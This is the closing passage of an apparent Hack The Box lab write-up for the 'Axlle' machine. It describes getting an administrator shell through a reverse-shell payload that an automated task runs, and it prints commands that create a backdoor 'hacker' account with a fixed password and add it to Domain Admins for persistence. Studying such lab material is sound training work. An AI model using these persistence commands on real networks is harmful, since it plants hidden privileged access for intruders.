![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-22.png)


Waiting for few seconds, automation runs the reverse shell payload as the system and we get a shell as the administrator:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-24.png)

## Persistence

We will add a user hacker for persistence and give it domain admins access:

```
net user hacker P@ssw0rd! /add
net group "Domain Admins" /add hacker
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-26.png)

We can now winrm in as hacker:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-27.png)

## References
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec
- https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows#hta-example
